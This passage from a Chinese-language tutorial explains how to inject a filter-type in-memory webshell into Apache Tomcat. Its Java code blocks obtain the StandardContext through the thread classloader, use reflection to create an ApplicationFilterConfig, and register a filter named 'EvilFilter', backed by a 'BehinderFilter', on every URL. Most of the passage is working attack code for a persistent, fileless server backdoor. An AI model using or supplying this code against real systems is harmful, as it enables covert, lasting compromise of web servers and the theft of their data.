 ```bash
    filterConfigs.put("EvilFilter", filterConfig);

    //FilterMap
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName("EvilFilter");
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    context.addFilterMap(filterMap);
%>
```

**FilterDefs**：存放 FilterDef 的数组，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息  
**FilterConfigs**：存放 filterConfig 的数组，在 **FilterConfig** 中主要存放 FilterDef 和 Filter 对象等信息  
**FilterMaps**：存放 FilterMap 的数组，在**FilterMap**中主要存放了 FilterName 和对应的 URLPattern  
按照同样的逻辑，我们编写一个非 jsp 型的内存马的方式就是，找 StandardContext->创建一个 filterdef->利用反射找 filterconfig，利用之前的 filterdef 创建相应对象并加到 standardcontext 里面->创建 filtermap 写上对应的 urlpattern 并放到 context 里面。

#### 内存马实现

编写内存马我们最一开始的出发点就是从获取 StandardContext 开始的，在网上大多数关于 StandardContext 在 filter 内存马当中的获取方式都是通过线程 (ContextClassLoader) 来获取，其具体情况可以看**bitterz 师傅**写的文章[https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914) 其原因是当我们编写非 jsp 型内存马时，我们已经失去了 request 对象只能使用其他手段来获取。获取手段如下：

```bash
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
 StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

结合之前的 jsp 型的内存马，经过简单的替换我们就将 filter 内存马的主体部分初步完成了，如下所示。这一部分事实上是关于内存马注入的 (动态注册 filter)，还剩下内存马的主体部分。

```bash
//StandardContext
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();

//FilterDef
Filter filter = new BehinderFilter();
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName("EvilFilter");
filterDef.setFilterClass(filter.getClass().getName());
context.addFilterDef(filterDef);

//FilterConfig
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
field1.setAccessible(true);
Map filterConfigs = (Map)field1.get(context);
filterConfigs.put("EvilFilter", filterConfig);

//FilterMap
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("EvilFilter");
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
context.addFilterMap(filterMap);
```
